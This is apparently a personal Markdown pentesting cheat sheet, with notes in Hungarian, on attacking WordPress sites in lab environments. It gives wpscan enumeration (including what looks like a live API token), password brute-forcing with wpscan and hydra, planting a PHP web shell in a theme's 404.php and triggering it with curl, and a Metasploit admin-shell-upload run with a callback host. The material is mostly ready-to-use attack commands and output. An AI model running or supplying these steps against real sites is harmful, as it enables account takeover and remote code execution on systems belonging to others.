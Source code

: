 # wordpress
## basic enumeration
sudo wpscan --url http://10.10.13.59/ --enumerate --api-token WjrpE4gHXHSJWdMRFd65wbgll05shgqVteeasj8sK1Y  
## login bruteforcing
sudo wpscan --password-attack xmlrpc -t 20 -U john -P /usr/share/wordlists/rockyou.txt --url http://blog.inlanefreight.local  
hydra -l user1 -P ./rockyou.txt 10.10.212.17 http-post-form "/wp-login.php:username=^USER^&pass=^PASS^:F=<span>Wrong password"
### Error
* van hogy errort dob es kiirja, hogy vigyuk lejjebb a thread-et
* vegyuk le 1-re
* ha az se jo, akkor inkabb hdyraval torjuk (mukodott mar a hydra legutobb, csak a pontos html output-bol kell masolni a 'false text'-et es nem a honlap szovegbol)
## code execution with obtained credentials
### manually
go to Appareance / theme editor  
select an inactive theme and select a file (like 404.php)  
insert an rce code sample, like this: system($_GET[0]);  
save  
curl http://10.10.10.1/wp-content/themes/<theme_name>/404.php?0=id
example  
<pre>
# twentyfifteen-en belul a 404.php-t tipikusan meg lehet szerkeszteni
# van mar nyito es csuko php tag oda koze be lehet illeszteni a get_header(); ele es akkor tuti jo lesz

# [Twenty Fifteen: 404 Template (404.php)] (backslash jelek nem kellenek csak a github hulyen kezeli a tageket)
</pre>
![image](https://github.com/VajdaGergely/EJPT_pentesting_cheatsheet/assets/39236093/0b8705de-5c2f-414b-a7f0-3f96bfbf481f)
<pre>
# aztan bongeszobol vagy curl-el meg lehet hivni
curl -i -s http://10.10.3.254/wp-content/themes/twentyfifteen/404.php?cmd=id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
</pre>
* KIS NAGY BETU BAROMIRA SZAMIT A THEME ELNEVEZESENEL !!!!!!!! CASE SENSITIVE !!!!!
  * KIS BETUVEL KELL IRNI MINDENT !!!
### metasploit
msf6 > use exploit/unix/webapp/wp_admin_shell_upload  
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set rhosts blog.inlanefreight.local  
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set username john  
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set password firebird1  
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set lhost 10.10.14.15  
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set rhost 10.129.42.195  
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set VHOST blog.inlanefreight.local  
msf6 exploit(unix/webapp/wp_admin_shell_upload) > run  
